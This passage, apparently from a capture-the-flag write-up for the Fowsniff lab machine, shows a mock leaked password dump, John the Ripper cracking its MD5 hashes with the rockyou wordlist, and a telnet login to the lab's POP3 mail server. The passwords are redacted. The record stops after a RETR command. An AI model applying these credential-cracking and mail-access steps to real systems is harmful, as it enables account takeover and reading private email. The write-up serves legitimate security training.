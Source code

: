```
parede@fowsniff:{hidden}
sciana@fowsniff:{hidden}
 
Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!
 
Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!
 
MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P
 
l8r n00bz!
 
B1gN1nj4
```

So we get some interesting information:
- POP3 open (as we already explored)
- The hashes are MD5
- Since these are email passwords, we can login to POP3 :D


### 1.6. Hash Cracking: JtR
I pasted the username password combinations in a `data` file on my machine, and used the tool: John the Ripper to crack the MD5 hashes.

```
┌──(kali㉿kali)-[/tmp]
└─$ john data --format="Raw-MD5" --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 9 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=6
Press 'q' or Ctrl-C to abort, almost any other key for status
{hidden}    (seina@fowsniff)
{hidden}    (parede@fowsniff)
{hidden}    (tegel@fowsniff)
{hidden}    (baksteen@fowsniff)
{hidden}    (mauer@fowsniff)
{hidden}    (sciana@fowsniff)
{hidden}    (mursten@fowsniff)
{hidden}    (mustikka@fowsniff)
8g 0:00:00:03 DONE (2021-06-07 22:08) 2.631g/s 4718Kp/s 4718Kc/s 12066KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

### 1.7. Exploiting POP3 Service

Using some help from [this website](https://www.shellhacks.com/retrieve-email-pop3-server-command-line/) we get the commands. Feel free to explore more. 


```
┌──(kali㉿kali)-[/tmp]
└─$ telnet 10.10.115.96 110
Trying 10.10.115.96...
Connected to 10.10.115.96.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS {hidden}
+OK Logged in.
STAT
+OK 2 2902
RETR 1
```